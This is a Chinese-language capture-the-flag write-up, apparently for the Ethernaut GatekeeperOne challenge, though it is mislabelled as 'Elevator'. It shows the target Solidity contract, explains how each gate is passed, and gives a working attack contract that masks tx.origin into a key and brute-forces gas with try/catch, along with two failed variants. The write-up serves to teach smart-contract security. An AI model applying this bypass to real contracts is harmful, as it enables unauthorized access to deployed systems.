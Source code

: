# 11 - Elevator

## 题目
攻击以下合约
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

## 解题
本题考察几点： 
第一关：通过使用合约调用 enter 函数来满足。
第二关：我们使用一个循环来尝试不同的 gas 值，直到找到正确的值。8191 * 3 是一个基础值，我们在此基础上微调。
第三关：构造 key 的逻辑如下：
uint64(uint160(tx.origin)) 获取调用者地址的后 8 字节。
& 0xFFFFFFFF0000FFFF 确保 key 的第 3 和第 4 字节为 0，满足条件 1 和 2。
最后 2 字节与 tx.origin 的最后 2 字节相同，满足条件 3。

攻击合约如下
```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface GatekeeperOne {
    function enter(bytes8) external  returns (bool);
}

contract hackGatekeeperOne {
    GatekeeperOne Gatekeepercontract ;
    constructor(address addr) {
        Gatekeepercontract = GatekeeperOne(addr);
    }

    function hack() public {
        bytes8 key = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;
        for (uint256 i = 0; i < 300; i++) {
        try Gatekeepercontract.enter{gas: i + (8191 * 3)}(key) returns (bool res){
            if (res) {
                break;
            }
            // return res;
        }catch { }

    }
}}
```
部署就解决，但是遇到几个问题，记录如下:
下面的合约写法不知何故，会报错：transact to GatePassOne.enterGate errored: Error occurred: invalid opcode.
```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

contract GatePassOne {
    event Entered(bool success);

    function enterGate(address _gateAddr) public returns (bool) {
        bytes8 key = bytes8(uint64(uint160(tx.origin))) & 0xffffffff0000ffff;

        bool succeeded = false;

        for (uint i = (8191 * 3) - 604; i < ((8191 * 3) + 604); i++) {
          (bool success, ) = address(_gateAddr).call{gas:i}(abi.encodeWithSignature("enter(bytes8)", key));
          if (success) {
            succeeded = success;
            break;
          }
        }

        emit Entered(succeeded);

        return succeeded;
    }
}
```
以及下面这段代码没有用try导致只能运行第一遍，第一个合约使用 try-catch 结构。这允许它在失败时继续尝试，而不会因为一次失败就终止整个交易。

而下面函数直接调用 enter 函数。如果调用失败，整个交易将回滚，停止进一步的尝试。
```solidity
           for (uint256 i = 0; i < 1500; i++) {
            bool success = Gatekeepercontract.enter{gas: i + (8191 * 3)}(key);
            if (success) {
                break;
            }
        }
```